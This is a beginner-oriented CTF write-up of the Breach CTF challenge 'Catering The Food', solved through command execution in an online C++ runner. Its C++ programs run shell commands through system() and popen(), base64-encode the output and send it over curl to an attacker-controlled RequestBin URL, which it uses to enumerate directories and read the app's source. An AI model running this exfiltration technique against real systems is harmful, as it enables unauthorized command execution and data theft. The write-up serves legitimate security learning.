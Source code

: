 ```yaml
---
title: "Catering The Food"
date: 2025-04-10 12:29:58 +0200
categories: writeups ctf
tags: ctf rce requestbin
description: Writeup of the Catering The Food challenge from the Breach CTF.
image: ../assets/images/posts/logos/breach-ctf.png
---
```

## Introduction

**Author**: Álvaro Bernal (aka. **trr0r**)

This writeup walks through the challenge **Catering The Food** from the [Breach CTF](https://ctf.breachers.in/). It is intended for **beginners** and includes detailed descriptions of each step, along with commentary for every screenshot. I believe the proposed solution is not the intended path for the challenge, but exploring alternative exploitation techniques is **valuable**, as it broadens our understanding and reveals a range of **potential attack vectors**.

___
### Request Bin

First, we need to go to [Requestbin](https://requestbin.whapi.cloud/) and create a **public URL** where we will be receiving the **output** of the commands we execute.

![](<../assets/images/posts/2025-04-10-catering the food/Pasted image 20250406202922.png>)

By clicking on `Create a RequestBin`, a public URL endpoint is generated. We’ll copy this URL to the clipboard, since it will be required in subsequent steps.

![](<../assets/images/posts/2025-04-10-catering the food/Pasted image 20250406203025.png>)
### Receiving `curl` command

The code snippet demonstrates using the `system()` function in C++ to run a `curl` command:

```cpp
#include <iostream>
#include <iostream>
#include <cstdlib>  // To use system()

// Author: Álvaro Bernal (aka. trr0r)

int main() {
    // Declare curl command
    const char* command = "curl http://<your-request-bin-url>/testingifcurlworks";
    
    // Make a system call to execute curl command
    int result = system(command);
    return 0;
}
```

The previously written code will be pasted into the website, which provides an environment for executing C++ code directly.

![](<../assets/images/posts/2025-04-10-catering the food/Pasted image 20250406203526.png>)

Shortly after, a GET request will be triggered and received at the previously created RequestBin endpoint (public URL).

![](<../assets/images/posts/2025-04-10-catering the food/Pasted image 20250406203348.png>)
### Getting comands output

This stage of the challenge becomes more **complex**. Previously, it was enough to confirm that the target system was susceptible to **remote command execution**. Now, however, we need to ensure we can execute **arbitrary commands reliably**. To facilitate this and minimize potential errors, we’ll implement two helper functions that will **streamline** the command injection process and improve flexibility:

- `base64_encode`: Encodes command output to Base64.
- `url_escape`: Escapes characters to make the data safe for URLs.

In summary, the code that we will need to input into the webpage to **execute arbitrary commands seamlessly**, without any complications, is as follows:

```cpp
#include <iostream>
#include <cstdio>
#include <cstdlib>
#include <string>

// Author: Álvaro Bernal (aka. trr0r)

// Function to manually encode a string in Base64
std::string base64_encode(const std::string& input) {
    const std::string base64_chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/";
    std::string encoded;
    int val = 0, valb = -6;
    for (unsigned char c : input) {
        val = (val << 8) + c;
        valb += 8;
        while (valb >= 0) {
            encoded.push_back(base64_chars[(val >> valb) & 0x3F]);
            valb -= 6;
        }
    }
    if (valb > -6) encoded.push_back(base64_chars[((val << 8) >> (valb + 8)) & 0x3F]);
    while (encoded.size() % 4) encoded.push_back('=');
    return encoded;
}

// Function to escape special characters for URL encoding
std::string url_escape(const std::string& str) {
    std::string escaped;
    for (char c : str) {
        if (c == ' ') escaped += "+";  // Replace space with "+"
        else if (c == '&') escaped += "%26";  // Escape "&"
        else if (c == '?') escaped += "%3F";  // Escape "?"
        else if (c == '=') escaped += "%3D";  // Escape "="
        else if (c == '%') escaped += "%25";  // Escape "%"
        else if (c == '/') escaped += "%2F";  // Escape "/"
        else if (c == '#') escaped += "%23";  // Escape "#"
        else escaped += c;  // Add characters as-is if they are not special
    }
    return escaped;
}

int main() {
    FILE* fp = popen("whoami", "r");  // Execute "whoami" command - Modifiy as your needs
    if (fp == nullptr) return 1;  // Exit if command execution fails

    char buffer[512];
    std::string output;
    while (fgets(buffer, sizeof(buffer), fp)) {
        output += buffer;  // Add each line of the output to the string
    }
    fclose(fp);  // Close the file pointer

    if (!output.empty() && output[output.size() - 1] == '\n') output.pop_back();  // Remove newline character at the end

    std::string encoded_output = base64_encode(output);  // Encode the output in Base64
    std::string escaped_output = url_escape(encoded_output);  // Escape the Base64 encoded output for URL

    // Prepare the curl command with the Base64 encoded and URL escaped output
    std::string curl_command = "curl \"http://<your-request-bin-url>/?output=" + escaped_output + "\"";
    system(curl_command.c_str());  // Execute the curl command

    return 0;
}
```
### Receiving comands output

The procedure executed by the C++ script is outlined below.
1. Run `whoami`
2. Encode in Base64
3. Escape for URL
4. Send with `curl`.

Upon completion, we will see a **base64-encoded** string being received at our RequestBin endpoint.

![](<../assets/images/posts/2025-04-10-catering the food/Pasted image 20250406210403.png>)

___
### Getting the flag

By decoding the **base64-encoded** content, we will uncover the **username** under which the remote commands are being executed.

![](<../assets/images/posts/2025-04-10-catering the food/Pasted image 20250406210349.png>)

Next, we will modify the previously shared code slightly to execute the following command, which will enable us to **list all directories and files from the system's root**.

```bash
ls -la
```

By repeating the same process as before (decoding the base64-encoded string received at the RequestBin), we will obtain the **directory structure**.

![](<../assets/images/posts/2025-04-10-catering the food/Pasted image 20250406210445.png>)

Next, we will make another modification to the code, this time to display the contents within the **app directory**.

```bash
ls -la /app/
```

Upon inspection, we will observe a directory (**/static**) and a file (**WEB_API.py**), the latter of which will stand out since it is responsible for serving the website.

![](<../assets/images/posts/2025-04-10-catering the food/Pasted image 20250406210558.png>)

If we try to access the content of the file, we will observe that **no request** is made to our RequestBin endpoint.

```bash
cat /app/WEB_API.py
```

This problem may occur because the file's content is **too large**, causing the URL to become **too long**, which prevents it from being sent due to the character limit. As an alternative, we will run the following command to display the **first 20 lines of the file**.

```bash
head -n 20 /app/WEB_API.py
```

At this point, we will notice that we receive a request (which is quite long). After decoding its content, we will discover that we have successfully accessed **the flag**, completing the challenge in a fully **valid alternative way**.

![](<../assets/images/posts/2025-04-10-catering the food/Pasted image 20250406210752.png>)

___
## Final Notes

This challenge tested basic concepts in **RCE**, exfiltration techniques via **HTTP requests**, and basic reconnaissance within a containerized environment. For **beginners**, it's a great introduction to chaining small steps into a successful exploit path.